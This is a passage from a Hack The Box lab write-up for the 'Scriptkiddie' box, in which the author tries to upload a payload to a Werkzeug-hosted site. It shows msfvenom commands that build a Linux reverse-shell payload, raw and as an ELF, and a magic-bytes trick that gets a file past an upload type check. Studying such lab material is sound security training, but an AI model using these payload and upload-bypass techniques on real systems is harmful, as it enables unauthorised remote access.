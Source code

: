 I'm not sure what format to use for a payload on a Werkzeug server - from experience with flask, I'm pretty sure it won't just execute a file if we visit its path. We also didn't discover any sort of `/uploads` path in our [[Writeups/Hack the Box/Boxes/Scriptkiddie/5 - Enumeration#Gobuster|Gobuster]] scan, but let's just generate a generic payload and see what happens:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie]
└─$ msfvenom -p linux/x64/shell_reverse_tcp -o test_shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Saved as: test_shell
```

We don't particularly care about the settings for the payload the *site* is generating - we just want it to save our malicious template:

![[Pasted image 20210612125842.png]]

However, this doesn't work:

![[Pasted image 20210612125902.png]]

Windows requires an exe. So if we select linux as our OS instead, will it take our file? This time it requires an ELF:

![[Pasted image 20210612130005.png]]

The first time I did this box, I searched for an ELF file and grabbed its magic bytes, then sent that to a test file just to see if it would upload:

```bash
$ head -c 8 ~/Documents/enum/pspy64 > elfy
$ file elfy
elfy: ELF 64-bit LSB (SYSV)
$ echo "hello" >> elfy
$ file elfy
elfy: ELF 64-bit LSB (SYSV)
```

However, you can also generate an ELF with msfvenom, which is what I tried the second time round:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie]
└─$ msfvenom -p linux/x64/shell_reverse_tcp -f elf -o test_elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: test_elf
```

I sent this off:
